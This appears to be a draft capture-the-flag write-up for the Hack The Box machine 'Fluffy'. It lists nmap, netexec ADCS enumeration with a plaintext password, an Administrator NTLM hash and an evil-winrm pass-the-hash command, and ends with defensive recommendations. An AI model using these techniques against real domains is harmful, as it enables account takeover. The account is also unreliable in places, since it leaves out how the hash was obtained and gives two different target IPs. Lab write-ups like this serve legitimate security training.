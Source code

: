# HTB: Fluffy - *Draft*

**Target:** `DC01.fluffy.htb`  
**Target IPs seen in logs:** `10.10.11.69`
**Attacker IP:** `10.10.14.2`
Date: 2025-10-10

---

## TL;DR
AD enumeration + ADCS probing led to Administrator NTLM hash recovery, which was used with hash-based WinRM login to get an Administrator shell and capture the flag.

---

## Engagement Goals
- Map AD/LDAP and related services.  
- Enumerate ADCS (Certificate Services) and certificate templates.  
- Recover credentials / NTLM hashes for privileged accounts.  
- Use recovered artifacts to authenticate to WinRM and capture Administrator flag.

---

### Initial discovery
Start with a quick service scan to identify active hosts and likely AD endpoints.

```bash
# example nmap pattern found in logs
sudo nmap -sV -sC -A -Pn -oN logs/nmap-full 10.129.96.54
```

Focus on ports: 389 (LDAP), 135/139/445 (RPC/SMB), 5985/5986 (WinRM).

---

### LDAP / AD enumeration
Use available tooling to query LDAP/AD for domain objects and to discover ADCS.

```bash
# run LDAP enumeration with discovered user
netexec ldap dc01.fluffy.htb -u j.fleischman -p 'J0elTHEM4n1990!' -M adcs
```

Observed outputs (condensed):
```
LDAP    10.10.11.69:389  -> DC01 (Windows Server 2019)
[+] fluffy.htb\j.fleischman:J0elTHEM4n1990!
[*] Searching for PKI Enrollment Service objects (objectClass=pKIEnrollmentService)
[*] Found PKI Enrollment Server: DC01.fluffy.htb
[*] Enumerating certificate templates and issuance policies
```

Notes: `j.fleischman` credentials were present in the collected data and used to probe ADCS templates and CA settings.

---

### ADCS probing & template analysis
Query template ACLs and look for templates that allow machine or user enrollment with weak ACLs. In this run the ADCS enumeration returned template metadata and issuance policies; that activity produced useful artifacts leading to credential/hash recovery.

```
[*] Enumerating templates
[*] Checking issuance policies and template ACLs
[*] Identifying templates enabled for enrollment
```

(Exact template names and ACLs are in the raw appendix if you want the verbatim lines.)

---

### Extract NTLM hash
During enumeration a privileged hash was recovered for the Administrator account. The log contains this line:

```
[*] Got hash for 'administrator@fluffy.htb': aad3b435b51404eeaad3b435b51404ee:8da83a3fa618b6e3a00e93f676c92a6e
```

---

### Authenticate to WinRM using hash
Administrator hash to authenticate to WinRM with evil-winrm. The logs record the exact invocation used to get a shell.

```bash
# reproduced from logs
evil-winrm-py -i dc01.fluffy.htb -u administrator -H 8da83a3fa618b6e3a00e93f676c92a6e
```

Session excerpt:
```
evil-winrm-py PS C:\Users\Administrator\Documents>
... navigate to Desktop ...
PS C:\Users\Administrator\Desktop> cat root.txt
<root flag text>
```

That completed the box: Administrator shell obtained and flag captured.

---

## Artifacts & Evidence
- Domain user: `fluffy.htb\j.fleischman` with password `J0elTHEM4n1990!`.  
- Administrator NTLM hash: `aad3b435b51404eeaad3b435b51404ee:8da83a3fa618b6e3a00e93f676c92a6e`  
- WinRM hash-authentication command: `evil-winrm-py -i dc01.fluffy.htb -u administrator -H <hash>`  

---

## Housekeeping / Cleanup (lab)
- Deleted any uploaded files used during exploitation (the logs show `exploit.zip` was transferred at one point).  
- Removed temporary files from `C:\Windows\Temp` and user profile temp folders.  
- Checkd for created scheduled tasks / services (none explicitly recorded in the provided logs, but confirm before leaving the host).

---

## Recommendations & Lessons
- ADCS should be treated as high-risk: lock down template ACLs, limit who can request/enroll templates, and audit CA operations.  
- Monitor abnormal ADCS queries and unusual template reads — these are strong indicators of enumeration attempts.  
- Keep domain credential reuse low; a single user credential led to deep enumeration that ultimately yielded an Administrator artifact.

---

## Raw terminal appendix

### AD / LDAP / ADCS enumeration
```
netexec ldap dc01.fluffy.htb -u j.fleischman -p 'J0elTHEM4n1990!' -M adcs
LDAP        10.10.11.69     389    DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:fluffy.htb)
[+] fluffy.htb\j.fleischman:J0elTHEM4n1990!
ADCS        10.10.11.69     389    DC01             [*] Starting search with search filter '(objectClass=pKIEnrollmentService)'
[*] Found PKI Enrollment Server: DC01.fluffy.htb
[*] Enumerating certificate templates and issuance policies
```

### NTLM hash discovery
```
[*] Got hash for 'administrator@fluffy.htb': aad3b435b51404eeaad3b435b51404ee:8da83a3fa618b6e3a00e93f676c92a6e
```

### WinRM hash login and flag
```
evil-winrm-py -i dc01.fluffy.htb -u administrator -H 8da83a3fa618b6e3a00e93f676c92a6e
evil-winrm-py PS C:\Users\Administrator\Desktop> cat root.txt
<root flag content>
```



